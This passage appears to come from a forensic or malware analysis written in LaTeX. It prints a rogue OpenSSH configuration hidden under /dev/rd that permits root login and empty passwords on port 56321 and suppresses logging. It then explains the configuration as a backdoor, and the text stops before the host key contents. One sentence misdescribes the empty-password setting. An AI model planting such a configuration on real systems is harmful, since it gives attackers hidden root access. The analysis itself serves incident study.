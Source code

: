 \texttt{/dev/rd/c2d3b2}:

\vspace{1em}

\begin{lstlisting}[style=terminal]
# This is ssh server systemwide configuration file.

Port 56321
ListenAddress 0.0.0.0
HostKey /dev/rd/c6d0b2
RandomSeed /dev/rd/c6d3b2
ServerKeyBits 768
LoginGraceTime 600
KeyRegenerationInterval 3600
PermitRootLogin yes
IgnoreRhosts no
StrictModes yes
QuietMode yes
X11Forwarding yes
X11DisplayOffset 10
FascistLogging no
PrintMotd yes
KeepAlive yes
SyslogFacility DAEMON
RhostsAuthentication no
RhostsRSAAuthentication yes
RSAAuthentication yes
PasswordAuthentication yes
PermitEmptyPasswords yes
UseLogin no
# CheckMail no
PidFile /dev/rd/c0d0b1
# AllowHosts Lame
DenyHosts *.localhost 127.0.0.1
# Umask 022
SilentDeny yes
\end{lstlisting}

\vspace{1em}

This was an alternate OpenSSH server configuration file. Instead of referencing \texttt{/etc/ssh/sshd\_config}, a rogue daemon read this configuration and bound to TCP port \texttt{56321} instead of standard port \texttt{22}. Its private host key was set to \texttt{/dev/rd/c6d0b2}, its random seed file to \texttt{/dev/rd/c6d3b2}, and its process ID was stored in \texttt{/dev/rd/c0d0b1}. It explicitly permitted root login without restrictions (\texttt{PermitRootLogin yes}), ignored empty passwords, and suppressed connection logging (\texttt{QuietMode yes}, \texttt{SilentDeny yes}), functioning as an immediate administrative backdoor on demand.

The host key file \texttt{/dev/rd/c6d0b2} contained:

\vspace{1em}


